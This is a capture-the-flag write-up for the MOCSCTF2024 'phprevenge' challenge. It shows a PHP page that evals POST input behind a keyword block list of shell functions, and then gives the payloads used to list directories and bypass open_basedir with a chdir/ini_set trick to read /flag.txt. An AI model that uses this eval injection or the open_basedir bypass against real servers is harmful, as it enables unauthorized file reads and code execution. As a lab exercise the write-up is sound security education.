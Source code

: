 # MOCSCTF2024 - phprevenge

- Write-Up Author: 菜鳥程序員1號 \[[菜鳥程序員1號](https://github.com/ian-ng)\]

- Flag: MOCSCTF{N0_b0dyyyyy_kn0w_Better_Php_Than_me}

## Challenge Description:

>this is challenge description

http://34.150.35.67:30304/


## Write up  
1. Open the website
- you just see a website that shows php source code
![img](./assets/img1.png)

2. you can see the source code that contains the following code
```php
<?php 
highlight_file(__FILE__);
//Php 1s Never Die!!!
ini_set('open_basedir','/var/www/html/');
function filter($str){
    if(preg_match('/passthru|\`|exec|call_user_func|pcntl|shell|popen|ob_start|map|array|system/i', $str)){
        return 'Damn Hacker🙉!';
    }
    else{
        return $str;
    }
}
filter(eval($_POST['1']));
?>
```
- it has an open_basedir setting to prevent getting data from the parent directory, and it will execute the input from the post request

3. just try to find the file of the flag
- I start to scan from the root directory, using Postman to send a POST request to the server with the following payload
![img](./assets/img2.png)

```
array(19) { [0]=> string(3) "bin" [1]=> string(3) "dev" [2]=> string(3) "etc" [3]=> string(4) "flag" [4]=> string(8) "flag.txt" [5]=> string(4) "home" [6]=> string(3) "lib" [7]=> string(5) "media" [8]=> string(3) "mnt" [9]=> string(3) "opt" [10]=> string(4) "proc" [11]=> string(4) "root" [12]=> string(3) "run" [13]=> string(4) "sbin" [14]=> string(3) "srv" [15]=> string(3) "sys" [16]=> string(3) "tmp" [17]=> string(3) "usr" [18]=> string(3) "var" }
```
- I can see that there is a file named "flag.txt" in the root directory, probably this is the file I want

4. try to read the content of the file "flag.txt"
- I send another POST request to the server with the following payload
```php
<?php
  file_get_contents('/flag.txt');
?>
```
![img](./assets/img3.png)

- unfortunately, it has been blocked by the ```open_basedir``` settings
- I need to find another way to read the content of the file

5. In order to bypass the open_basedir restriction, I need to find out the path of current php file path
- I send another POST request to the server with the following payload
```php
<?php
  echo getcwd();
?>
```
![img](./assets/img4.png)

- It can know that the current php file path is ```/var/www/html/```

6. there is a way to bypass the open_basedir restriction, by changing the current directory to a child directory and set the open_basedir to the '..' to the trick
```php
<?php
  mkdir('test');
  chdir('test');
  // current directory is /var/www/html/test
  ini_set('open_basedir','..');
  // now it can access the parent directory from /var/www/html/test, then I can go the root directory
  chdir('..');
  // current directory is /var/www/html
  chdir('..');
  // current directory is /var/www
  chdir('..');
  // current directory is /var
  chdir('..');
  // current directory is /
  ini_set('open_basedir','/');
  // now I can access the root directory, and try to read the content of the file "flag.txt"
  echo file_get_contents('/flag.txt');
?>
```
- then, I send this POST request to the server with the above payload
![img](./assets/img5.png)

7. For the last step, I should remove the test directory to recover the environment
```php
<?php
  rmdir('test');
  var_dump(scandir('.'));
  // array(3) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(9) "index.php" }
  // the test directory has been removed
?>
```
![img](./assets/img6.png)
